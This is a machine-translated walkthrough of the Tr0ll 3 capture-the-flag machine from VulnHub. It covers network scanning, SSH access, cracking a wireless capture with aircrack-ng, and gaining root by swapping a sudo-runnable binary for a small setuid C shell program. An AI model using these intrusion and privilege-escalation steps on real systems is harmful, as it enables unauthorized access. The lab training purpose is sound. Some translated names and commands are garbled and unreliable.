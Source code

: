 # Tr0ll 3 检查旗帜或 CTF 问题演练

> 原文:[https://www . geeksforgeeks . org/tr0ll-3-check-flag-or-CTF-problem/](https://www.geeksforgeeks.org/tr0ll-3-walkthrough-of-check-the-flag-or-ctf-problem/)

**CTF** 或**查旗**问题贴在[vulunhub.com。](https://vulunhub.com) **VulunHub** 是一个平台，提供易受攻击的应用/机器，获得信息安全领域的实际动手经验。

Tr0ll 3 是 vulunhub 上的一台机器。下载访问:
[巨魔 3 机器–Vulunhub](https://www.vulnhub.com/entry/tr0ll-3, 340/)

以下是 Vulunhub–Tr0ll 3 演练的步骤:

*   ### 在网络中查找主机

    使用命令 **netdiscover -i(接口名称)-r (IP 地址/16)**

    **示例:**

    ```
    netdiscover -i eth0 -r 10.0.2.0/16 
    ```

    ![](img/5d665f429de29d5bc9b447937d75e04a.png)

*   ### 用 nmap 扫描目标

    我们得到了目标 IP。下一步是用 nmap 扫描目标。
    **例:**

    ```
    nmap -p- -A -O -T 4 IP_address
    ```

    ![](img/4378d0115382d33e5fbd2e124a48f556.png)

    Nmap 显示只有端口 22 (SSH)是打开的。

    一旦我们打开目标机器，我们注意到有凭证(开始:这里)。

*   ### SSH 登录

    使用命令 **ssh start@IP_address** (点击输入并输入密码)

    ![](img/678099525df92a5b88f9b541a77d7739.png)

    我们进去了。是时候寻找有用的东西了。使用 **ls 命令**查看内容，我们发现了两个文件红丸和蓝丸，其中没有任何有用的信息。

*   ### 找到我们可以访问的文件

    使用命令**find/-键入 f -perm 777 2 > /dev/null** 来查找具有所有权限的文件。

    使用**scp start @ IP _ address:file _ path。/home/Kali/** 将文件从远程主机复制到我们的机器上。这里 **gold_star.txt** 包含一堆密码， **wytshadow.cap** 看起来像是无线网络捕获的数据包。wytshadow.cap 可以通过 **wireshark** 打开，但是如果你在另一台电脑上远程操作，就不方便了。因此，最好使用 **tcpdump** 命令来分析数据包，它告诉我们它是一个取消身份验证的数据包，并且所有数据包的协议都是**“802.11”**。
    **注意:** 802.11 是用于在无线连接设备之间传输数据包的协议。

    ![](img/a3c7e709ea123b1e487be69d82e8a324.png)

*   ### 提取密码的命令

    现在，我们有了**。cap** 文件和一些乱码字符串。因此，我们使用了一个名为 **aircrack-ng** 的工具，它可能有助于提取密码。

    ![](img/146ad55ac3ba4cf0bce44e90d39cc6dd.png)

    现在使用 **wytshadow** 作为用户 id 和破解的密码来访问另一个名为 wytshadow 的用户

    ![](img/a9c7165b6c69738a80a367001ac0f2e6.png)

    我们注意到有一个名为 **oohfun** 的文件有 SUID 位。让我们执行它。
    **注意:**可以使用**【文件 _ 文件名】**命令检查任何文件细节

    现在，使用 **sudo -l** 尝试检查我们在这里拥有什么 **sudo** 权限，并输入我们使用 **aircrack-ng** 破解的密码，这表明我们可以使用 sudo 权限启动 **ngnix** 服务器。现在转到**/etc/ngnix/sites-available**路径我们找到一个文件名**默认。**打开它显示我们可以使用端口 **8080 上的 **lynx** 服务进行远程处理。**但是首先我们必须在端口 **8080** 上启动 **ngnix** 服务器使用命令**启动 **ngnix** 服务器 sudo service nginx start** 我们可以使用 **netstat -nalp | less** 检查状态

*   Now to listen on the specific port type **” lynx http://10.0.2.10:8080″** in Kali terminal.

    瞧啊。我们又拿到了一张证件。让我们使用上面的凭证切换到 *genphlux 用户*。

    ![](img/94a61ff6f874445e738cb6bff70c5953.png)

*   Now use **ls** command and we have file **maleus** and **xlogin.** Maleus seems to be interesting. Let’s explore the file. We see that it stores a RSA key and xlogin is simple HTML document file Copy the private key and save it in any file with permission 600 ( I named ssh-key)

    有一个 ELF 64 位可执行文件**不要 _ 甚至 _ 打扰**有完全权限。当我们执行文件时，它需要一个我们还没有的密码。
    使用 **ls -lah** 我们得到了另一个有趣的文件，**。viminfo"** 。我们使用 cat 命令检查文件，得到凭证 **(B^slc8I$)** 。
    现在使用 **sudo -l** 命令查看 root 权限文件，我们可以像 maleus 用户一样以 root 身份运行**不要 _ even _ 打扰**文件。
    我们先删除 don _ even _ have 文件的内容，然后在这个文件里面注入我们的恶意代码。

    ![](img/03d3892d3ba8758bff577ebf79d23136.png)

*   Now inject the following script into **dont_even_bother.c** file. It’s the script that will invoke a shell on executing.

    ```
    int main(void) {
        setgid(0); setuid(0);
        execl("/bin/sh", "sh", 0);
    }
    ```

    这里我们提供了组 id 和用户 id 值为 0，因为在 Linux 中“0”代表根用户，这将有助于我们扩展当前的权限

*   Now we have to compile the C code in order to make it executable
    We compile the file by using the gcc compiler **“gcc dont_even_bother.c -o dont_even_bother”**
    Now as you remember we can run dont_even_bother as sudo user.So, lets run it .

    ![](img/92d3987f189b922a2063e4353b19b8d6.png)

*   Now, type **whoami** to see who are you and Great! We successfully got the root shell and owned root.
    Now type **cd /root** and then **ls** to see the content

    太好了。，我们得到了国旗作为旗帜

    ![](img/1f64072eae19650817347b781517ea90.png)